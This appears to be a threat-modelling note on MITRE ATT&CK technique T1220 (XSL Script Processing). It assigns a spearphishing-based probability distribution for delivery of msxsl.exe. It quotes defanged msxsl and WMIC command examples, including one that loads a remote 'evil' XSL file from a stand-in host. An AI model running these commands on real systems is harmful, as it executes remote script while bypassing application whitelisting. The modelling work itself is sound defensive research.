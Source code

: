 # XSL Script Processing https://attack.mitre.org/techniques/T1220/

## Context 

Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. [1]

Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application whitelisting defenses. Similar to Trusted Developer Utilities, the Microsoft common line transformation utility binary (msxsl.exe) [2] can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files. [3] Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files. [4] Msxsl.exe takes two main arguments, an XML source file and an XSL stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe adversaries may also give the XML/XSL files an arbitrary file extension.[5]

Command-line examples:[3][5]

msxsl.exe customers[.]xml script[.]xsl
msxsl.exe script[.]xsl script[.]xsl
msxsl.exe script[.]jpeg script[.]jpeg
Another variation of this technique, dubbed "Squiblytwo", involves using Windows Management Instrumentation to invoke JScript or VBScript within an XSL file.[6] This technique can also execute local/remote scripts and, similar to its Regsvr32/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in Windows Management Instrumentation provided they utilize the /FORMAT switch.[5]

Command-line examples:[5][6]

Local File: wmic process list /FORMAT:evil[.]xsl
Remote File: wmic os get /FORMAT:"https[:]//example[.]com/evil[.]xsl"

This technique needs a probability distribution in order to assess the prevalence of the adversary delivering the msxsl.exe to the user for installation. 

## Relevant findings

https://reaqta.com/2018/03/spear-phishing-campaign-leveraging-msxsl/
The main way of delivering the msxsl.exe for installation is via spearphishing. 

## Result 

We assess the probability distribution to be the same as for Spearphishing Attachment [Bernoulli(0.93)*Exponential(1)].

## Discussion

We could, instead of adding the same probability distribution every time spearphishing is a way of delivering payload add it as parent. (same goes for Compiled HTML File) This might already (indirectly) be the case but I couldn't find a way of making sure of this (the graph is too big to be explored manually)